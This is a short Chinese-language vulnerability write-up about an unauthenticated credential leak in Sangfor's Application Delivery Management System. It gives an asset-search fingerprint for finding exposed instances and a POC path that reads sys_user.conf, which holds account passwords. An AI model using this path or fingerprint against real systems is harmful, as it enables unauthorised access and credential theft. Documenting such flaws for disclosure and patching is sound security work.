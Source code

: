# 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

## 漏洞描述

深信服 应用交付管理系统 文件sys_user.conf可在未授权的情况下直接访问，导致账号密码泄漏

## 漏洞影响

```
深信服 应用交付管理系统
```

## 网络测绘

```
app="SANGFOR-应用交付管理系统"
```

## 漏洞复现

登录页面

![image-20220525145113865](images/202205251451936.png)

验证POC

```
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

![image-20220525145136819](images/202205251451862.png)